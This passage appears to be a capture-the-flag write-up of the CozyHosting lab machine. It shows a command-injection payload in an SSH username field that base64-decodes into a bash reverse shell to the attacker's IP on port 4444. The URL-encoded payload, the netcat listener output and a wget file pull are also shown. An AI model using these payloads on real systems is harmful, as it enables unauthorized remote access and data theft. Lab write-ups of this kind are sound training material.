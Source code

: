 In the location attribute, we get an error relating to ssh. Again, I receive another hint and determine that there is an exploit here, likely a payload in username or host IP, so do more research.

I came across a payload to put into the username field:

<pre><code><strong>;echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash;
</strong></code></pre>

For the payload, I want to send a bash shell to my IP at port 4444. To do that I need this command in base64 and then I replace it in the \[ PAYLOAD ] placeholder above:

```
"bash -i >& /dev/tcp/10.10.14.83/4444 0>&1"
```

We need to encode the payload to base64, and then the whole command in URL format:

```
-[Thu Feb 29-09:07:19]-[table@parrot]-
-[~]$ echo "bash -i >& /dev/tcp/10.10.14.83/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK
```

The base64 payload inserted into our command:

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK"|base64${IFS}-d|bash;
```

Full command payload, encoded into URL to insert in username:

```
%3Becho%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA%2BJjEK%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B
```

After sending the payload, and having `netcat` listening on port 4444, we catch a reverse shell!

```
-[Thu Feb 29-09:37:07]-[table@parrot]-
-[~]$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.11.230] 54708
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$ 

```

We find a `.jar` file in `/app`. We cannot view it remotely so I download it onto the remote host to view it:

```
-[Thu Feb 29-09:55:59]-[table@parrot]-
-[~]$ wget 10.10.11.230/app/cloudhosting-0.0.1.jar
--2024-02-29 09:56:43--  http://10.10.11.230/app/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://cozyhosting.htb [following]
--2024-02-29 09:56:43--  http://cozyhosting.htb/
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Reusing existing connection to 10.10.11.230:80.
HTTP request sent, awaiting response... 200 
Length: unspecified [text/html]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar              [ <=>                                                  ]  12.41K  --.-KB/s    in 0.08s   

2024-02-29 09:56:43 (150 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [12706]
```